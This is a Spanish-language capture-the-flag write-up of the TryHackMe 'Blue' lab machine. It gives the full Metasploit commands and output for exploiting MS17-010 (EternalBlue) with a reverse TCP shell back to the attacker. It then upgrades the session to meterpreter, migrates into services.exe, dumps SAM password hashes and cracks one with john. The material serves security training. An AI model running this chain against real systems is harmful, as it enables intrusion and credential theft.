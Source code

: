 # Blue — Writeup

**Fecha:** 10-10-2025\
**Plataforma:** TryHackMe

---

## TL;DR

Se identificaron puertos RPC/SMB en una máquina con Windows 7 (especialmente el servicio SMB en el puerto 445). Se explotó la vulnerabilidad MS17-010 (module ms17_010_eternalblue en Metasploit) para obtener una shell remota, se elevó/convertió la sesión a meterpreter y se migró a services.exe para mayor estabilidad; desde ahí se volcó el SAM con hashdump, se crackeó la contraseña del usuario Jon usando john con la wordlist rockyou.txt, y con ese acceso se recopilaron las flags leyendo /flag1.txt, /Windows/system32/config/flag2.txt y /Users/Jon/Documents/flag3.txt.

---

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```

**Relevant Result**
* 445/tcp open microsoft-ds (Windows 7)
  
---

## Foothold (Metasploit)
**Search Exploit**
```bash
  $ msfconsole
  msf > search windows 7 eternalblue
#   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010
```
**Comment:** ``msfconsole`` abre la interfaz de Metasploit.


**Set Exploit**
```bash
  msf > Use 0
  msf exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS $MACHINEIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST $LOCALIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
```

**Run Exploit**
```bash
  msf exploit(windows/smb/ms17_010_eternalblue) > run
	{...}
  meterpreter > 
```
## Privilege Escalation

**Shell to Meterpreter**
```bash
 meterpreter > (CTRL+Z) 
Background session 1? [y/N] y
msf > search shell_to_meterpreter
#  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter  .                normal  No     Shell to Meterpreter Upgrade
```
**List Sessions**
```bash
msf post(multi/manage/shell_to_meterpreter) > sessions -l
Active sessions
===============
  Id  Name  Type                     Information                                               Connection
  --  ----  ----                     -----------                                               ----------
  1         shell x64/windows		 Shell Banner: Microsoft Windows [Version 6.1.7601] -----  $IP -> $IP ($IP)

```
**Set & Run Meterpreter Shell**
```bash
 msf > Use 0
 msf post(multi/manage/shell_to_meterpreter) > set SESSION 1
 msf post(multi/manage/shell_to_meterpreter) > run
		{...}
 msf post(multi/manage/shell_to_meterpreter) > sessions -l
Id  Name  Type                     Information                                               Connection
  --  ----  ----                     -----------                                               ----------
  1         shell x64/windows		 Shell Banner: Microsoft Windows [Version 6.1.7601] -----  $IP -> $IP ($IP)
  2			meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                              $IP -> $IP ($IP)

 msf post(multi/manage/shell_to_meterpreter) > sessions 2
 meterpreter >
```

**Migrate Shell**
```bash
meterpreter > ps
Process List
============

 PID   PPID  Name            Arch  Session  User                      Path
 ---   ----  ----            ----  -------  ----                      ----
 716   616   services.exe    x64   0        NT AUTHORITY\SYSTEM       C:\Windows\system32\serv
                                                                      ices.exe
meterpreter > migrate 716
[*] Migrating from 704 to 716...
[*] Migration completed successfully.
```
**Comment:** Migramos la shell a un proceso mas estable.

## Hash
**Getting Hash**
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

**Cracking**
```bash
$ echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > userhash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT userhash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED         (?)     
1g 0:00:00:01 DONE (2025-10-10 15:29) 0.9174g/s 9358Kp/s 9358Kc/s 9358KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

## Flags
**Flag 1**
```bash
meterpreter > cd /
meterpreter > cat flag1.txt
```

**Flag 2**
```bash
meterpreter > cd /Windows/system32/config
meterpreter > cat flag2.txt
```

**Flag 3**
```bash
meterpreter > cd /Users/Jon/Documents
meterpreter > cat flag3.txt
```
